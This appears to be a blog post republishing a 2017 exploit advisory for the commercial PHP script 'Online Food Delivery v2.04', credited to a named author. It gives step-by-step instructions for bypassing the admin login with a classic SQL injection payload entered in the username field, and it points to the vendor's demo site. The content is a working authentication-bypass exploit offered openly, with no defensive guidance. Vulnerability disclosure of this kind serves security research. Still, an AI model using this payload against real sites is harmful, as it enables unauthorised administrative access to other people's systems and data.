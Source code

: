 ```yaml
---
layout: post
title: Online Food Delivery v2.04 - Authentication bypass - 12.01.2017
---
```

Authentication bypass should give you access to the admin area.

<br># Vulnerability: Online Food Delivery v2.04 Authentication bypass
<br># Date: 12.01.2017
<br># Software link: http://itechscripts.com/food-delivery/
<br># Demo: http://restaurant.itechscripts.com
<br># Price: 49$
<br># Category: webapps
<br># Exploit Author: Dawid Morawski
<br># Website: http://www.morawskiweb.pl
<br># Contact: dawid.morawski1990@gmail.com
<br>#######################################
<br>
<br>Description:
<br>Authentication bypass should give you access to the admin area.
 
<br>Go to http://localhost/[PATH]/admin/admin_login.php and set:
<br>
<br>Username: 1' or 1=1 -- -
<br>Password: anything
